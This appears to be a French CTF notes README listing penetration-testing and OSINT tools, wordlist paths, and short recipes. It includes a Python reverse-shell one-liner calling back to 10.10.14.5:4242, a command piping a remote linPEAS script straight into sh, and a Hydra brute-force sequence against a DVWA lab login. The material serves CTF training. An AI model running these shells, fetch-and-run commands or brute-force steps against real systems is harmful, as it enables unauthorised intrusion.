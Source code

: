 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

-----Scanner-----

nmapAutomator : git clone https://github.com/21y4d/nmapAutomator.git
                sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

--------------

Avoir un shell :
python3 -c 'import pty;pty.spawn("/bin/bash")'

export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

# WORDLIST :
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 
/usr/share/wordlists/dirb/big.txt => sub domain 
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/share/seclist/bitquark-subdomains-top100000.txt
/usr/share/seclist/subdomains-top1millions-110000.txt
